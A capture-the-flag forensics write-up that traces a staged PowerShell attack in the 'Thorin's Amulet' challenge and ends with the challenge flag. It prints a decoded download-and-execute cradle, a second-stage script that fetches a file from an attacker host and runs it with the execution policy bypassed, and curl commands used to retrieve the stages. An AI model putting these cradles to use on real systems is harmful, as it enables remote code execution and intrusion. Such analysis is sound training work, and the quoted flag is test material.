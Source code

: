 # Thorin’s Amulet

**Creator:** ch4p

**Description:** Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end  Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened?
  Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.

**Category:** Forensics

**Difficulty:** very easy

**File:** forensics_thorins_amulet.zip

## Solution 

The provided script included an encoded command: `SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik=` 

That decodes to: `IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")`

This shows that the script downloads and executes additional PowerShell from `/update`

Rather than set up DNS resolution, I used the direct IP/port provided by the challenge: `curl http://94.237.53.247:48872/update`

It returned another PowerShell snippet:
```powershell
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq

```
This shows a custom header (X-ST4G3R-KEY) is used to fetch the next-stage script.

Recreated the request manually using curl: `curl -H "X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" http://94.237.53.247:48872/a541a -o a541a.ps1`

a541a.ps1 was a small decryption routine:
```powershell 
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""

```

This converts the hex string into ASCII to reveal the flag `HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}`
![alt text](image-1.png)
